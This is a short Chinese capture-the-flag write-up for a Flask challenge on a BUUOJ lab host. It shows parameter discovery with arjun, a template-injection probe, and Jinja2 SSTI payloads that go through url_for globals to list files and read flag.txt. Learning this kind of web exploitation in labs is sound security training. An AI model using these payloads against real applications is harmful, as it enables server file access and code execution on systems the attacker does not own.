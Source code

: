 ![[Pasted image 20230118100150.png|500]]

---

![[Pasted image 20230118100135.png|1000]]

突出一个爆破.jpg

除了题目提示`flask`之外就没有其他信息了

尝试`dirsearch`目录爆破无果，发现一个爆破`query`的工具`arjun`

```shell
arjun -u http://xxx.node4.buuoj.cn:81/ -c 100 -d 0.1
```

![[Pasted image 20230118103413.png|1000]]

```
/?name=1
```

![[Pasted image 20230118103529.png|200]]

```
/?name={{7*7}}
```

![[Pasted image 20230118103559.png|200]]

利用`url_for`函数注入

```
/?name={{url_for.__globals__['__builtins__']['__import__']('os').listdir('.')}}
```

```python
['flag.txt', 'application.py', 'requirements.txt', 'static', 'templates']
```

```
/?name={{url_for.__globals__['__builtins__']['open']('flag.txt').read()}}
```

![[Pasted image 20230118104246.png|500]]

#Web #python #flask #SSTI #urlfor #arjun #参数爆破